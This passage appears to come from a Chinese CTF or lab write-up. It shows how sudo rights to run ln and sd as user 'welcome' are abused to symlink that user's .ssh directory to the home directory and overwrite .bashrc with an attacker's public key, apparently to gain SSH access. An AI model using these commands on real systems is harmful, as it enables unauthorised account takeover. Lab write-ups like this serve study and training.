 使用ln命令，创建软连接、硬链接

软链接可以指向文件和目录，硬链接只能指向文件

![](/medias/Scanner/11.png)

不确定welcome用户是否存在.ssh目录以及authorized_keys文件

- /home/welcome 存在
- /home/welcome/.bashrc 存在
- /home/welcome/.ssh 可能不存在
- /home/welcome/.ssh/authorized_keys 可能不存在

创建.ssh的软链接，指向/home/welcome目录

```bash
sudo -u welcome /usr/bin/ln -sfn /home/welcome /home/welcome/.ssh
```

修改.bashrc文件

```bash
sudo -u welcome /usr/bin/sd -f s '.*' "$(cat /tmp/1.pub)" /home/welcome/.bashrc
```


再次查看.bashrc内容

```bash
sudo -u welcome /usr/bin/sd -p '(.*)' '$1' /home/welcome/.bashrc
```

